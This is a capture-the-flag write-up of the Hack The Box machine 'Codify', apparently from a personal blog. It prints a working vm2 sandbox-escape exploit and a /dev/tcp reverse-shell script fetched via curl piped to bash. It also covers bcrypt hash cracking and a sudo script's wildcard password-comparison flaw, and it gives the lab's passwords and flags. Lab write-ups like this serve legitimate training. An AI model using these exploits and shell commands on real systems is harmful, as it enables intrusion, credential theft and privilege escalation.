 ```yaml
---
title: Codify from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Codify from HTB
[page](https://app.hackthebox.com/machines/Codify)
`Nmap` gave nothing unusual.
Went to the site and saw `vm2`and then went for `vm2 exploit`and got to this github:
https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244
code is:
```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('id');
}
`

console.log(vm.run(code));
```
This will show:
```bash
uid=1001(svc) gid=1001(svc) groups=1001(svc)
```
This means we can execute commands.
I went to my terminal and wrote `reverse.sh`:
```bash
#!/bin/bash
sh -i >& /dev/tcp/10.10.16.4/1234 0>&1
```
Then i started `simple server` with `python3 -m http.server 8000` and then used `curl`to get the file and execute it:
```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('curl http://10.10.16.4:8000/reverse.sh|bash');
}
`

console.log(vm.run(code));
```
This got me connection on `NetCat`:
```bash
rlwrap nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.239] 36178
can't access tty; job control turned off
$ script  /dev/null -c bash


svc@codify:/var/www/contact$ file tfile tickets.db
file tickets.db
tickets.db: SQLite 3.x database,



sqlite3 tickets.db
SQLite version 3.46.0 2024-05-23 13:25:27
Enter ".help" for usage hints.
sqlite> .tables
tickets  users
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```
Password for `Joshua` ----- $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

`hashid`told me this:
```bash
$ hashid '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2'
Analyzing '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2'
[+] Blowfish(OpenBSD)
[+] Woltlab Burning Board 4.x
[+] bcrypt
```
It is `bcrypt`.
```bash
$ hashcat --force -m 3200 hash /usr/share/wordlists/rockyou.txt


$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1
```
Password is `spongebob1`
```
su joshua
password: spongebob1

cat /home/joshua/user.txt
00b4a83c6272242b48ef48b86dce70d7
```
***
User Flag is: 00b4a83c6272242b48ef48b86dce70d7
***
```bash
sudo -l
User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
After analyzing the code:
```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```
This can be exploited:
```
if [[ $DB_PASS == $USER_PASS ]]; then
```
Because if `$USER_PASS`will be `*`it will be the root password.
`* is every string you can do research about "wild cards" or visit pwn.college and finish first 2 dojos`
This Will leak `root passowrd`in `linux processes` and to read it we need to use `pspy64s`which can be downloaded from this `github repository`:
```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s
```
***
`Pspy`is a powerful command-line tool specifically designed to monitor Linux processes without the need for administrative privileges. With `Pspy`, you can obtain valuable insights into the activities and behaviors of processes running on a Linux system.

One of the key advantages of `pspy` is its ability to operate without root or administrative access, making it useful for security audits, forensics investigations, and general system monitoring. It allows you to observe process-to-process interactions, monitor the creation and termination of processes, and even capture command-line arguments passed to specific processes.
***
Open another connection to `ssh`with `joshua`user and transfer `pspy64s`via `python3 simple server`. Make it executable and run it:
```python
wget http://<your_ip>:<port>/pspy64s
chmod +x pspy64s
./pspy64s
```
In other `ssh connection`start the `/opt/scripts/mysql-backup.sh`and make password equal to`*`
```bash
$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: *
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```
Then check `pspy64s`and search for password:
```
2024/08/08 10:43:07 CMD: UID=0    PID=2393   | /usr/bin/mysqldump --force -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 sys
```
`kljh12k3jhaskjh12kjh3` is password. After that become the root and read the flag:
```bash
$ su root
Password:
root@codify:/home/joshua# cat /root/root.txt
b8ad88846ff449e6ad4788eb309c6ead
```
***
Root Flag is: b8ad88846ff449e6ad4788eb309c6ead
***

![](/assets/images/Screenshot from 2024-08-08 14-44-12.png)
